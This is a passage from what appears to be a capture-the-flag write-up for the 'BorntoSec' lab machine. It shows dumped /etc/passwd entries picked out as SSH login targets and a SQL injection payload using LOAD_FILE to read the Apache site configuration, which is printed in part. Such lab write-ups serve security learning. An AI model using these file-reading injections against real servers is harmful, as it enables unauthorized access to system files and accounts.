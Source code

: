 ```
dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:110:118::/var/spool/postfix:/bin/false
```

We can see that there are user that we can use try to ssh over login 
```
[...]
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
[...]
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
[...]
```

Let's probe a bit more, we know that the server is running on apache2. We can try to retrieve the site config.

```
SELECT LOAD_FILE('/etc/apache2/sites-enabled/000-default')
```
```
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    ServerName BorntoSec
    DocumentRoot /var/www

    <Directory /var/www/forum>
        SSLRequireSSL
    </Directory>
    <Directory /var/www/>
        allow from all
    </Directory>
</VirtualHost>

<VirtualHost *:443>
    ServerAdmin webmaster@localhost
    SSLEngine On
    SSLCertificateFile /etc/ssl/private/localhost.pem

Alias /phpmyadmin /usr/share/phpmyadmin
<Directory /usr/share/phpmyadmin>
    Options FollowSymLinks
    DirectoryIndex index.php
    AllowOverride All

    <IfModule mod_php5.c>
        AddType application/x-httpd-php .php
        php_flag magic_quotes_gpc Off
        php_flag track_vars On
        php_flag register_globals Off
        php_admin_flag allow_url_fopen Off
        php_value include_path .
        php_admin_value upload_tmp_dir /var/lib/phpmyadmin/tmp
        php_admin_value open_basedir /usr/share/phpmyadmin/:/etc/phpmyadmin/:/var/lib/phpmyadmin/
    </IfModule>
</Directory>

Alias /forum /var/www/forum
<Directory /var/www/forum>
    Options Indexes FollowSymLinks MultiViews
    <IfModule mod_php5.c>
        php_flag register_globals off
```